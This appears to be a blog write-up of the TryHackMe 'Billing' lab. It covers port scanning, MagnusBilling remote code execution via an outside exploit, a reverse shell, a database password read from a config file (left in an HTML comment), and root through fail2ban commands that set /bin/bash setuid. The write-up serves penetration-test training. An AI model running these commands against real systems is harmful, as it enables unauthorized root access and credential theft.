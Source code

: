```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 4
tags: RCE fail2ban 
categories: Tryhackme
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1741192887584
---
```


👋 Greetings, fellow cybersecurity enthusiasts,

As part of my ongoing preparation for the TryHackMe PT1 exam, I’ve just completed another room in the series: Billing.

In this walkthrough, I document the enumeration, exploitation, privilege escalation, and flag capture steps taken during the engagement. The aim is to reinforce key penetration testing concepts while also sharing insights that can help others preparing for the PT1 exam.

📘 Follow along as we continue building knowledge, sharpening skills, and moving one step closer to certification success.

## Enumeration

An initial TCP port scan was conducted against the target billing.thm (10.10.207.112) using Nmap with the following parameters: ports 22, 80, 3306, default scripts (-sC), service/version detection (-sV), TCP connect scan (-sT), and aggressive timing (-T4)

These were the results:
```php
                                                                                                                                        1 ✘ 
# Nmap 7.95 scan initiated Tue Mar 11 10:03:19 2025 as: /usr/lib/nmap/nmap --privileged --min-rate=10000 -p 22,80,3306 -sC -sV -sT -T4 -Pn -oA nmap_output/20250311_100319_tcp_ports billing.thm
Nmap scan report for billing.thm (10.10.207.112)
Host is up (0.40s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://billing.thm/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 11 10:03:36 2025 -- 1 IP address (1 host up) scanned in 17.00 seconds
```

### Web Enumeration

The HTTP service revealed a web application landing page for MagnusBilling. As no valid credentials were available, further research was conducted to identify potential exploits

![image.png](assets/screenshots/Billing/1.png)

A GitHub repository was found that provides a direct Remote Code Execution (RCE) vulnerability for this application.

![image.png](assets/screenshots/Billing/2.png)

Using the instructions from the GitHub repository, the Remote Code Execution (RCE) vulnerability in the MagnusBilling application was successfully leveraged. This allowed for the execution of arbitrary commands on the target system.

Following the exploit procedure, a reverse shell was obtained, providing access to the target machine:

![image.png](assets/screenshots/Billing/3.png)

## User Flag

After gaining a reverse shell on the target system, the next step was to locate the user flag. Typical locations for user flags are within the home directories of users.

On inspection, the user flag was found at the home directory of the user `magnus`:

![image.png](assets/screenshots/Billing/4.png)


<!-- asterisk@ip-10-10-17-92:/var/www/html/mbilling/protected/config$ cat /etc/asterisk/res_config_mysql.conf
<ted/config$ cat /etc/asterisk/res_config_mysql.conf             
[general]
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = BLOGYwvtJkI7uaX5
 -->


While enumerating the target after gaining a reverse shell, a potentially sensitive file was discovered:
```php
/var/www/html/mbilling/protected/config/main_production.php
```
![image.png](assets/screenshots/Billing/5.png)


This file contained important configuration details, including a reference to another configuration file with database credentials. Access to these credentials could allow direct interaction with the underlying **MariaDB** service, potentially exposing sensitive information such as application data, user accounts, and hashes.

This discovery indicated a clear path for lateral movement and privilege escalation through database exploitation.

![image.png](assets/screenshots/Billing/6.png)

I had to check if there was a mysql service running, and yes it was running and allows connection 

![image.png](assets/screenshots/Billing/7.png)


# Privilege Escalation

During post-exploitation enumeration, it was identified that **Fail2ban** was installed and actively running on the target system.  
Fail2ban monitors authentication logs and executes predefined actions (e.g., banning IPs, running scripts) when certain patterns are triggered.  

Upon further inspection, it was discovered that the Fail2ban configuration referenced an **action script** that was writable by the current user. This misconfiguration allowed modification of the script, enabling command execution with elevated privileges when Fail2ban triggered a ban event.

The syntax
```php
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

```php
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 10.23.26.210 
```

```php
ls -lna /bin/bash
```

```php
bash -p  
```


![image.png](assets/screenshots/Billing/8.png)

From there go get the root flag 😎😎

![image.png](assets/screenshots/Billing/9.png)


Till next time

#OperationFireball #KillTheLimits #Sniper #SerialKiller #RedTeam #Pentesting #ActiveDirectory #PT1
